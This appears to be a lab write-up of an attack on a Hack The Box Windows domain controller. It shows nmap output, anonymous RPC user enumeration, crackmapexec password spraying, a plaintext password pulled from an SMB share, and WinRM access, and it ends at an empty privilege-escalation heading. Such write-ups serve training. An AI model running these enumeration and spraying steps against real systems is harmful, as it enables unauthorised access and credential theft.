




# Enumeration
```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-18 17:08 EST
Stats: 0:04:03 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 97.12% done; ETC: 17:12 (0:00:02 remaining)
Nmap scan report for 10.10.10.172
Host is up (0.017s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-01-18 22:18:09Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf        .NET Message Framing
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=1/18%Time=5E2381D3%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 9m55s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-01-18T22:20:26
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 303.00 seconds
```

**Enum4Linux:** </br>
I first used this tool, and got a list of users from the rpcclient what gave me the idea that it allows an anonymous login. </br>

**SMB:** <br>
Failed to connect with smbclient / smbmap </br>
Commands: </br>
```smbmap -H 10.10.10.172``` -> Access Denied. </br>
```smbclient -N -L //10.10.10.172``` </br>


## Initial Foothold

**RPC:** </br>
```rpcclient -U "" -N 10.10.10.172``` </br>
**querydispinfo** -> Found nothing interesting. </br>
**enumdomusesrs** -> Got the list of users. </br>
 </br>
Copied the list of users to a new file, used awk to cut the file:  ```cat users | awk -F\[ '{print $2}' | awk -F\] '{print $1}'``` </br>
I decided to do password spraying with crackmapexec to check if any user has used his username as his password: </br>
```bash
crackmapexec smb 10.10.10.172 -u users -p users --continue-on-success
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
```

I found ```SABatchJobs``` credentials. </br>
I was able to browse some interesting shares with this user, with this command: </br>
```smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJobs``` </br>
I saw I had access to read usesrs$, SYSVOL, NETLOGON, IPC$ and azure_uploads shares. </br>
I used smbclient, and found something interesting in ```users$``` share: </br>
 </br>
Under the user ```mhope```, there is a file called ```azure.xml```, I grabbed it with: ```get azure.xml``` </br>
 </br>
It contains a password: ```<S N="Password">4n0therD4y@n0th3r$</S>``` </br>
Since it was under mhope's share, I assumed that it is his password, but I tried this password for all of the users just in case: </br>
```crackmapexec smb 10.10.10.172 -u users -p '4n0therD4y@n0th3r$'``` </br>
I also checked if evil-winrm worked for mhope's user: </br>
```crackmapexec winrm 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'``` </br>
I got a ```Pwn3d!``` , so it did work over WinRM. </br>
 </br>
# Privilege Escalation


